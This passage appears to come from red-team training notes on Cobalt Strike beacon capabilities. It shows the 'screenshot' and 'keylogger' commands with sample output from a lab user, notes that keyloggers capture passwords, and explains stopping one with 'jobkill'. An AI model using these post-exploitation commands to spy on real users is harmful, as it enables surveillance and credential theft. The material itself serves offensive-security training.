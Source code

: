 #### Output

```
beacon> screenshot
[*] received screenshot of Sticky Notes from bfarmer (46kb)
```

**To view screenshots:**

**View -> Screenshots**

<figure><img src="../.gitbook/assets/image (283).png" alt=""><figcaption></figcaption></figure>

## C2 Capability: Keylogger

A keylogger is capable of capturing the keystrokes of a user, which is especially useful for capturing usernames, passwords, and other sensitive information.

{% hint style="warning" %}
Anything the user enters on the keyboard will be logged.
{% endhint %}

**Commands:**

```
beacon> keylogger
[+] received keystrokes from *Untitled - Notepad by bfarmer
```

Killing a keylogger requires the usage of the `jobkill` command.
